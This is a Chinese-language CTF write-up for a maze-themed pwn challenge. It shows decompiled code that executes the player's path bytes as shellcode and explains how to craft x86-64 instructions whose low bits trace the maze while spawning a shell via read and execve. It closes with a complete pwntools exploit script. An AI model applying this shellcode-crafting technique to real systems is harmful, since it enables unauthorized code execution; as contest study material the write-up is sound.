





[https://www.ctfiot.com/184181.html](https://www.ctfiot.com/184181.html)
#  保护检查


# 代码

```cpp
__int64 __fastcall check_solve(char *a1)
{
  __int64 result; // rax
  __int64 v2; // rax
  __int64 index_step; // rax
  __int64 v4; // rax
  __int64 v5; // rax
  __int64 v6; // rax
  char *map; // [rsp+0h] [rbp-190h]
  int v8; // [rsp+Ch] [rbp-184h]
  __int64 v9[2]; // [rsp+20h] [rbp-170h] BYREF
  __int64 now_position; // [rsp+34h] [rbp-15Ch]
  int change_x; // [rsp+3Ch] [rbp-154h]
  int change_y; // [rsp+40h] [rbp-150h]
  char opcode; // [rsp+47h] [rbp-149h]
  __int64 v14; // [rsp+48h] [rbp-148h] BYREF
  __int64 v15[2]; // [rsp+50h] [rbp-140h] BYREF
  __int64 last_position; // [rsp+64h] [rbp-12Ch]
  int v17[5]; // [rsp+6Ch] [rbp-124h] BYREF
  char map_step[264]; // [rsp+80h] [rbp-110h] BYREF
  char *v19; // [rsp+188h] [rbp-8h]

  v19 = a1;
  memset(map_step, 0, 0x100uLL);
  v17[0] = 0;
  v17[1] = 0;
  v17[2] = 1;
  v17[3] = 2;
  v17[4] = 3;
  last_position = 0x100000001LL;                // 初始位置1,1
  v15[1] = (__int64)a1;
  v15[0] = std::string::begin((__int64)a1);
  v14 = std::string::end(a1);
  while ( 1 )
  {
    result = __gnu_cxx::operator!=<char *,std::string>(v15, &v14);// 判断操作是否结束
    if ( (result & 1) == 0 )
      return result;
    opcode = *(_BYTE *)__gnu_cxx::__normal_iterator<char *,std::string>::operator*(v15);// 迭代遍历操作
    if ( (unsigned __int64)v17[0] >= 0x100 )
    {
      v2 = std::operator<<<std::char_traits<char>>(&std::cout, "Too Long Solution!");
      return std::ostream::operator<<(v2, &std::endl<char,std::char_traits<char>>);
    }
    change_y = 0;
    change_x = 0;
    switch ( opcode & 3 )
    {
      case 0:
        change_x = -1;
        break;
      case 1:
        change_y = 1;
        break;
      case 2:
        change_x = 1;
        break;
      case 3:
        change_y = -1;
        break;
      default:
        break;
    }
    HIDWORD(now_position) = change_y + HIDWORD(last_position);// 高32位表示y坐标。低32位表示x坐标
    LODWORD(now_position) = change_x + last_position;
    if ( !(unsigned int)IsInBounds(change_y + HIDWORD(last_position), change_x + (int)last_position) )
    {
      v6 = std::operator<<<std::char_traits<char>>(&std::cout, "Out-Of-Bound Detected!");
      return std::ostream::operator<<(v6, &std::endl<char,std::char_traits<char>>);
    }
    index_step = v17[0]++;
    map_step[index_step] = opcode;
    map = grid;
    v8 = map[(int)XYToIndex(SHIDWORD(now_position), now_position)];
    if ( v8 == '#' )
    {
      v4 = std::operator<<<std::char_traits<char>>(&std::cout, "Wall Hit!");
      return std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
    }
    if ( v8 == 'T' )
    {
      v5 = std::operator<<<std::char_traits<char>>(&std::cout, "Congratulations!");
      std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
      v9[0] = (__int64)map_step;
      v9[1] = (__int64)v17;
      check_solve(std::string)::$_0::operator()(v9);
    }
    else
    {
      last_position = now_position;             // 更新当前坐标
    }
    __gnu_cxx::__normal_iterator<char *,std::string>::operator++(v15);// 下一个操作
  }
}
最后达到指定位置会执行
__int64 __fastcall check_solve(std::string)::$_0::operator()(__int64 *a1)
{
  __int64 v1; // rax
  char *addr; // [rsp+8h] [rbp-38h]

  addr = (char *)mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  if ( addr != (char *)-1LL )
  {
    *(_WORD *)addr = '1H';
    addr[2] = '\xC0';
    memcpy(addr + 3, (const void *)*a1, *(int *)a1[1]);
    mprotect(addr, 0x1000uLL, 5);
    __asm { jmp     rax } 
  }
  v1 = std::operator<<<std::char_traits<char>>(&std::cout, "Bad mmap()");
  return std::ostream::operator<<(v1, &std::endl<char,std::char_traits<char>>);
}

```
IDA 中有一个地图字符串，由于它是 42 行 42 列的正方形地图，我们根据地图推出最终路线，再根据路线所需的指令得到合适的指令字节
# 思路
1. 找到合适的指令，使它们构成的字节码的最低两位能够满足最终到达 T 位置
2. 这些指令能够 getshell
3. 这样最终到达 T 位置时，就会调用这些指令从而 getshell

这里用 /bin/sh 作为系统调用的输入。至于指令部分，我们不知道 mmap 的起始地址，opcode 部分也很难绕过。所以关键在于 read 系统调用和 execve 系统调用——先想好基础的 gadget，再改造它们以满足绕过条件

# 单字节指令
push pop  xchg  
# 注意
使用 asm 时，对应的汇编指令之间必须有换行符，否则两条指令连在一行会出问题


"SPL" 通常指寄存器 esp（栈指针寄存器）




# 附上 S1uM4i 师傅们的 exp

```python
from pwn import *


def rep(s):
    return s.replace("2", " xchg esi,eax\n").replace("3", " xchg ebx,eax\n").replace("1", " xchg ebp, eax\n").replace("0", " nop\n")


def rep2(s):
    return s.replace("2", " push rdx\n").replace("3", " push rbx\n").replace("1", " push rcx\n").replace("0", " nop\n")


context.arch = "amd64"

sc1 = '''xchg   ecx,eax
xchg   ecx,eax
xchg   ecx,eax
xchg   ecx,eax
xchg   edx,eax
mov esp, 0x404e02 
xchg   edx,eax'''
sc2 = b'\x40\xFE\xCC\x92\x40\xFE\xCC'  #减小栈顶的值
sc3 = '''xchg   edx,eax
push rsp
pop rdx
push rsp
pop rsi
push rdx
pop rcx                                                                                      
syscall\n''' + rep('1001122112211001111221122221122222211001111221122110011000000110000110000112222222') + ' mov bx,0x6873\n' + rep('22222332211223333223322221122333322111122110011112222330') + ''' 
xchg   edx,eax  
xchg   edx,eax
xchg   edx,eax
xchg   ecx,eax
pop    rdi
pop rcx
pop rcx
push rdx
push rdx
push rdx
push   0x3b\n''' + rep('3003322') + 'pop   rax\n' + rep2('222111') + 'syscall\n xchg   ecx,eax'
# mov bx,0x6873只是满足字节码要求而已
p = process("./pwn")
#p = remote("116.198.74.135", 39659)
sc = asm(sc1) + sc2 + asm(sc3)
for i in sc:
    print(str(i&3), end="")
print()
gdb.attach(p, "b *0x401744")
pause()
# sleep(1)
p.sendline(sc)
sleep(1)
p.sendline(cyclic(999).replace(b'aaaabaaa', p64(0x404dd0)).replace(b'eaaafaaa', b'/bin/sh\x00'))
#输入的前八个字节是p64(0x404dd0)，第16个字节后是b'/bin/sh\x00'  cyclic有一定规律
p.interactive()
```

